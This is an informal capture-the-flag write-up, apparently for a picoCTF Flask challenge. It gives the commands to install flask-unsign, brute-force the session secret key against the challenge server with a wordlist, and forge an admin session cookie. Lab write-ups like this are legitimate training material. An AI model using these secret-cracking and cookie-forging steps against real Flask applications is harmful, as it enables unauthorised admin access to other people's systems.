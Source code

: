 In this lvl we need to download certain things to get the flag.<br>
First make a virtual environment in the terminal.<br>
To do that use command : python -m venv filename or use <br>
 git clone https://github.com/noraj/flask-session-cookie-manager.git && cd flask-session-cookie-manager 
 python -m venv venv 
 source venv/bin/activate 
 python setup.py install 
Then use command : pip install -U itsdangerous <br> To download the pre-requisites<br>Then download flask-unsign using command : pip3 install flask-unsign
Then we see the source code which is given and try to annalyze it.<br>
We can understand that we need to become admin to gt flag.<br>
You might see that you have been given a list of cookies which are good but not enough<br>
Then we need to get the secret key, for that we need to use 'flask-unsign' tool which will be present in github.<br>
Use command : flask-unsign --unsign --server 'http://mercury.picoctf.net:65344/' --wordlist wordlist.txt <br>
where wordlist is the list among all the given cookie.<br>
Now from secret key we need to forge the cookie.<br>
Then I used the following commands to get encoding done: <br>python3 flask_session_cookie_manager3.py encode -s gingersnap -t "{'very_auth':'admin'}"
<br>
Here instead of gingersnap u have to give your own secret key<br>
You will get the forged cookie now use it to get the flag.